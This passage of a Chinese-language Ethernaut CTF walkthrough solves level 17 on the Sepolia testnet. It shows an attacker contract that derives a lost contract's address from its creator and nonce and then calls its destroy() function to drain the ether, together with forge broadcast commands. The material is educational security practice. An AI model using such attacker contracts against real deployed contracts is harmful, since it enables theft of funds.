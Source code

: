 完整代码见：[这里](ethernaut/test/Level16.s.sol)

执行脚本：
```
forge script script/level16.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

链上记录：
- [level(`Preservation`)](https://sepolia.etherscan.io/address/0x20FD051bF1d72a491674d9259dc7a155160bdF9d)
- [Attacker](https://sepolia.etherscan.io/tx/0x937C8d10E36DdaD95C6F9765807A9fd5266e8C7e)
- [attack 交易](https://sepolia.etherscan.io/tx/0x800f92f8f9b6be1f3119f7ce3708616482e02bf97ecab5e28b14fd7a5470c34f)


## lelve 17

[The Ethernaut level 17](https://ethernaut.openzeppelin.com/level/17)

这一关的目的是取回第一个 `SimpleToken` 合约里的 ether，该合约提供了自毁方式可以提取属于资金。然而，该合约地址忘记了。
（吐槽下，合约地址忘记了的话查看区块链浏览器就可以找回了呀）

仔细阅读合约，`SimpleToken` 合约由 ` Recovery` 合约使用 `create` 操作码创建。要找回创建的合约地址的话，只需 `create` 中的两个关键参数：`sender` 和 `nonce`。前面提到了，是要找回第一个合约的地址，即第一笔交易，因此 `nonce = 1`。`sender` 自然是 `Recovery` 合约的地址。有了这两个关键参数后，合约地址就可以计算出来了。

攻击者合约：
```
contract Attacker {
    Recovery level;

    constructor(address level_) {
        level = Recovery(level_);
    }

    function attack() public {
        address payable lostContract = payable(address(
            uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), address(level), bytes1(0x01)))))
        ));

        SimpleToken(lostContract).destroy(payable(msg.sender));
    }
}
```

执行脚本：
```
forge script script/level17.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

完整代码见：[这里](ethernaut/test/level17.s.sol)

链上记录：
- [level(`Recovery`)](https://sepolia.etherscan.io/address/0x5B78B2E2ccFD96d2a064A7c20f6eEFcDff851106)
- [Attacker](https://sepolia.etherscan.io/tx/0x662A79D0A3ecb09F7a92dC47707105591025A030)
- [attack 交易](https://sepolia.etherscan.io/tx/0x773ac711a60b45f253732a35011d117d88cfc5b68c042575ccf6aa93f6d9fdce)
- [找回的 SimpleToken 地址](https://sepolia.etherscan.io/address/0x9f7F48EEaF91fDc3Dd94Bfd9d601b54f9e08dB94)
